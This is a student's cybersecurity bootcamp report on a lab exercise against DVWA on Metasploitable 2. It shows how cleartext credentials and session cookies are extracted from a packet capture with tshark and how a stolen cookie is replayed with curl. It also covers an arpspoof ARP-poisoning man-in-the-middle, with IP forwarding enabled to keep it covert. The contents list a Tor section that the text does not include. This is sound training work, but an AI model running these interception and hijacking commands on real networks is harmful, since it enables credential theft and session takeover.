# DFCS Bootcamp – Assignment 8 (Session Interception & Anonymity)

**Name: MUHAMMAD ZAIN NASIR**

**Program: Digital Forensics & Cyber Security Bootcamp – PSEBCYBERISB02**

**Trainer: Waseem Abbas Khan**

**Submitted: Friday, 27 November 2026**

**Repository: [https://github.com/the-raven-zn/dfcs-bootcamp/tree/main/s10-session-mitm-tor](https://github.com/the-raven-zn/dfcs-bootcamp/tree/main/s10-session-mitm-tor)**

**Contents:** Task 1 (Session Interception Report: capture/filter, credential + cookie extraction, ARP-poisoning MITM) · Task 2 (Anonymity and the Dark Web: public IP checks, Tor service, proxychains leak test, onion service, `tor --verify-config`)

> **Redaction note:** per the assignment's own instructions, this report does not include any live session cookie (Task 1) and the real public IP address / precise location data captured in Task 2 has been redacted in both text and screenshots (Tor exit-node IPs, private lab IPs, and the public nmap test target `scanme.nmap.org` are not personally identifying and are left unredacted).

**Method.** Task 1 was performed entirely within an isolated host-only VM lab segment: Kali Linux as the attacker/analyst machine and Metasploitable 2 (running DVWA) as the victim, both on the same Layer-2 segment, with no production or internet-facing systems involved at any point. Task 2 was performed on the same Kali machine switched to a NAT-connected network with real internet access, working through five ordered sub-tasks on Tor and anonymity tooling.

## Summary of tasks

| # | Task | Target / Scenario | Weight | Headline result |
|---|------|--------------------|--------|-------------------|
| 1 | Session Interception Report | DVWA on Metasploitable 2 (isolated lab) | 50% | 1,013-frame capture; credentials and session cookie extracted in cleartext and replayed; working ARP-poisoning MITM demonstrated with ip_forward on/off comparison |
| 2 | Anonymity and the Dark Web | Kali Linux, live Tor network | 50% | Public IP confirmed three ways; Tor circuit verified; real `nmap` leak discovered and proven via tcpdump; working v3 onion service; verify-config ownership trap demonstrated |

---

# Task 1 – Session Interception Report

## Part A — Capture and filter

### A.1 — Capture

A continuous packet capture was taken on Kali while browsing DVWA (`192.168.206.130`) from login through a full tour of its vulnerability pages and a deliberate second login, to generate well above the required 300-frame minimum.

- **Capture filter:** `host 192.168.206.130`
- **Why this filter:** it captures every frame to *and* from the victim, in both directions, across all protocols — a single raw file that can be re-filtered multiple ways for the exercises in A.2/A.3, rather than three separate narrower captures that would each miss traffic the others need.
- **Result:** **1,013 frames** captured, independently verified both from Wireshark's own status bar and by parsing the saved `.pcapng` file's Enhanced Packet Block count directly.


*Figure 1.1 — Wireshark capture window showing 1,013 captured frames against the `host 192.168.206.130` filter.*

### A.2 — Display filters and frame counts

Three display filters were applied against the single saved capture:

| Filter | Purpose | Result |
|---|---|---|
| `ip.addr == 192.168.206.130` | Traffic to **and** from the target | 1,009 / 1,013 (99.6%) |
| `ip.src == 192.168.206.130` | Traffic **from** the target only | 442 / 1,013 (43.6%) |
| `http.request` | HTTP **requests** only (not responses) | 116 / 1,013 (11.5%) |

The to/from filter did not match 100% of frames — the four unmatched frames are ARP packets captured earlier in the session, which have no IP layer at all and therefore cannot satisfy an `ip.addr` condition despite involving the target's MAC address. This is a useful illustration that a capture filter scoped by host (Layer 2/3 aware) and a display filter scoped by IP address (Layer 3 only) are not perfectly equivalent.


*Figure 1.2 — `ip.addr == 192.168.206.130`, 1,009/1,013 frames (99.6%).*


*Figure 1.3 — `ip.src == 192.168.206.130`, 442/1,013 frames (43.6%).*


*Figure 1.4 — `http.request`, 116/1,013 frames (11.5%).*

### A.3 — Range-filter trap

| | Filter | Result |
|---|---|---|
| **Wrong form** | `ip.addr >= 192.168.206.129 && ip.addr <= 192.168.206.129` | 1,009 / 1,013 (99.6%) |
| **Correct form** | `ip.addr == 192.168.206.129` | 0 / 1,013 (0.0%) |

**Why the wrong form over-matches:** `ip.addr` tests a packet's source *or* destination independently for each half of a compound expression — it does not require both halves to be satisfied by the *same* address. A packet with `src = 192.168.206.128, dst = 192.168.206.130` passes `ip.addr >= .129` because its destination (`.130`) satisfies that half, and separately passes `ip.addr <= .129` because its source (`.128`) satisfies that half — so the AND of the two conditions evaluates true even though neither field is actually bounded by `.129` on its own. Since host `.129` does not exist anywhere in this lab segment, the correct form (`ip.addr == 192.168.206.129`) rightly returns zero matches, while the broken range form accidentally matches almost the entire capture.


*Figure 1.5 — Wrong form matches 1,009/1,013 frames despite host .129 not existing.*


*Figure 1.6 — Correct form matches 0/1,013 frames, as expected.*

## Part B — What the attacker sees

### B.1 — Credential extraction

```
tshark -r session_capture.pcapng -Y "http.request.method == POST && http.request.uri == \"/dvwa/login.php\"" -T fields -e frame.number -e urlencoded-form.key -e urlencoded-form.value
```

```
20   username,password,Login   admin,password,Login
303  username,password,Login   admin,password,Login
```

Both the initial login (frame 20) and a deliberate second login (frame 303) show the credentials in cleartext, since DVWA serves its login form over plain HTTP with no transport encryption. A first attempt extracting the raw `http.file_data` field returned hex bytes (`757365726e616d653d61646d696e...`), which independently decodes to the identical `username=admin&password=password&Login=Login` — confirming the result two different ways.


*Figure 1.7 — tshark extracting the POST body of both captured logins as plain, readable key/value pairs.*

### B.2 — Session cookie extraction and curl reuse

```
tshark -r session_capture.pcapng -Y "http.cookie" -T fields -e frame.number -e http.cookie | head -5
```
```
security=high; PHPSESSID=[REDACTED]
```
(consistent across every browsed frame — the same single session throughout)

```
curl -s -i --cookie "security=high; PHPSESSID=[REDACTED]" http://192.168.206.130/dvwa/index.php | head -30
```
→ `HTTP/1.1 200 OK`, full DVWA dashboard HTML returned, **with no username or password submitted at all** — proof that the sniffed cookie alone is sufficient to impersonate the authenticated session.

A negative control using an invalid placeholder cookie correctly returned `302 Found` → redirect to the login page with a freshly issued `Set-Cookie`, confirming the server does reject unknown sessions, and that the successful replay above is specifically due to possessing the valid stolen value rather than a server that accepts any cookie.


*Figure 1.8 — tshark extracting the session cookie value from multiple captured frames.*


*Figure 1.9 — Replaying the stolen cookie with curl returns the authenticated DVWA dashboard.*

### B.3 — Cookie flag assessment

```
curl -s -i http://192.168.206.130/dvwa/index.php | grep -i "set-cookie"
```
```
Set-Cookie: PHPSESSID=[redacted session value]; path=/
Set-Cookie: security=high
```

| Missing flag | Attack enabled |
|---|---|
| **HttpOnly** | Client-side JavaScript can read the cookie via `document.cookie`. Combined with an XSS vulnerability (present elsewhere on this same DVWA instance), this allows an attacker to exfiltrate the session cookie to a remote server. |
| **Secure** | The cookie is sent over plain HTTP as well as HTTPS. This is precisely what made Parts B.1/B.2 possible — the cookie travelled across the network in cleartext, where it was captured and replayed. |
| **SameSite** | The cookie is attached automatically to cross-site requests, enabling CSRF — a malicious third-party page can trigger state-changing requests using the victim's authenticated session without their knowledge. |

*Note: the live session cookie value captured during this exercise has been redacted from this report in line with the assignment's instruction not to include any live session cookie in the submission; by submission time the lab VM session no longer exists regardless.*


*Figure 1.10 — Server's Set-Cookie response headers, showing no HttpOnly, Secure, or SameSite attributes on either cookie.*

## Part C — Man in the middle

### C.1 — ARP poisoning and proof via the victim's ARP table

```
sudo arpspoof -i eth0 -t 192.168.206.130 192.168.206.2
```

After flushing the victim's ARP cache and re-querying (`sudo ip -s -s neigh flush all`), the victim's ARP table (read over SSH with `arp -n`) showed:

```
Address          HWtype  HWaddress           Flags Mask   Iface
192.168.206.1    ether   00:50:56:C0:00:01   C            eth0
192.168.206.2    ether   00:0C:29:0A:43:6D   C            eth0   <- poisoned
192.168.206.128  ether   00:0C:29:0A:43:6D   C            eth0   <- real Kali MAC
```

The gateway (`.2`) now resolves to the **identical MAC address** as Kali itself — direct proof the victim has been deceived into believing Kali is the router.


*Figure 1.11 — arpspoof sending forged ARP replies claiming Kali is 192.168.206.2.*


*Figure 1.12 — Victim's ARP table via SSH, showing the gateway and Kali sharing one MAC address.*

### C.2 — Why ip_forward is required, and what the victim observes when it is off

With `ip_forward=0` (the default) and poisoning active, the victim's ping to the gateway produced:
```
From 192.168.206.130 icmp_seq=1 Destination Host Unreachable
From 192.168.206.130 icmp_seq=2 Destination Host Unreachable
...
```

ARP poisoning only redirects traffic at Layer 2 — it tricks the victim into addressing gateway-bound frames to Kali's MAC address. If Kali's kernel does not forward IP packets between interfaces, those packets simply arrive and go nowhere, and the victim's own kernel reports the resulting dead end as "Destination Host Unreachable." In effect, poisoning without forwarding turns a stealthy interception attack into a trivially detectable denial-of-service. Enabling forwarding is required to keep the attack both functional (the victim retains connectivity) and covert (no obvious outage to prompt investigation).


*Figure 1.13 — Victim's ping fails with "Destination Host Unreachable" while ip_forward is disabled on Kali.*

### C.3 — Enabling forwarding and final proof of interception

```
sudo sysctl -w net.ipv4.ip_forward=1
```
→ confirmed `net.ipv4.ip_forward = 1`.

**Troubleshooting note (included for completeness):** the lab's originally configured gateway, `192.168.206.2`, turned out to be a dead address on this host-only network — it never answers ARP at all, confirmed both by Kali's own ARP table showing `(incomplete)` for it and by Kali itself failing to ping `.2` even with zero poisoning involved. The attack was re-targeted at `192.168.206.1` (VMware's actual host-only gateway interface).

Even after retargeting and enabling forwarding, ICMP echo to `.1` still showed 100% packet loss — verified to be because `.1` itself never answers ICMP Echo requests at all (confirmed by pinging it directly from Kali with poisoning fully stopped: still 100% loss). This is unrelated to whether the MITM itself is functioning.

**Final, protocol-independent proof of interception** was obtained with `tcpdump` on Kali while the victim pinged the gateway:
```
sudo tcpdump -i eth0 -nn icmp
```
```
IP 192.168.206.130 > 192.168.206.1: ICMP echo request, seq 1
IP 192.168.206.130 > 192.168.206.1: ICMP echo request, seq 2
IP 192.168.206.130 > 192.168.206.1: ICMP echo request, seq 3
IP 192.168.206.130 > 192.168.206.1: ICMP echo request, seq 4
IP 192.168.206.128 > 192.168.206.130: ICMP redirect 192.168.206.1 to host 192.168.206.1
IP 192.168.206.130 > 192.168.206.1: ICMP echo request, seq 5
```
These packets are addressed, at the IP layer, from the victim to the gateway — yet they physically arrived on **Kali's own network interface**. This is direct evidence of successful Layer-2 interception, independent of whether the final destination ever replies.

**Incidental finding:** Kali's own kernel issued an ICMP Redirect back to the victim ("talk to `192.168.206.1` directly") after forwarding a packet to a host on the same subnet it just received it from. This is a genuine, documented weakness of naive ARP-poisoning MITM — a victim OS that honors ICMP redirects can partially route around the attacker's position mid-attack, which is one reason real-world MITM tooling (ettercap, bettercap) typically suppresses outgoing ICMP redirects on the attacking host.


*Figure 1.14 — Kali itself cannot reach 192.168.206.1, confirming the host simply does not answer ICMP, independent of any attack.*


*Figure 1.15 — tcpdump started on Kali's interface, filtered to ICMP traffic.*


*Figure 1.16 — Victim's ping command to 192.168.206.1 while ARP poisoning is active.*

